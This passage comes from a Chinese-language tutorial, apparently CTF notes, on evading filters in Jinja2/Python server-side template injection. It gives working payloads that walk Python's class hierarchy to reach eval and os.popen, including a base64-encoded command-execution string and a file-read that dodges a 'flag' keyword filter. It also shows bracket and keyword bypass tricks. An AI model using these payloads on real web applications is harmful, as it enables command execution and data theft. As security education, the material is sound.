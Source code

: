 ```python
{{().__class__.__bases__[0]}}

# 等同于

{{().__class__['__base'+'s__'][0]}}

# 这里的 '+' 可以是 '~', 甚至可以什么都不填, python 会自动拼接括号内的两个相邻字符串
```

也可以使用 `join()` 来绕过:

```python
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read()
# 绕过对 flag 的过滤
```

##### 编码绕过

用编码绕过对关键字的过滤, 例如 base64:

```python
().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))

# 等价于

{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}

# 此处的 encode(), decode() 方法的返回值仍然是一个字符串, 因此不影响语法正确性;
```

不光是这种编码, Hex 编码和 Unicode 编码也可以;

#### 绕过中括号

##### `.__getitem__()`

对于绕过了中括号的场景, 任何 `[]` 都可以用 `__getitem__()` 来替代, 例如:

```python
"".__class__.__mro__[2]
"".__class__.__mro__.__getitem__(2)
['__builtins__'].__getitem__('eval')
```

##### `.pop()`

也可以用 `pop()` 方法来代替 `[]` 做索引, 例如上面的第一行 payload 也等价于:

```python
"".__class__.__mro__.pop(2)
```

##### 用字典读取绕过
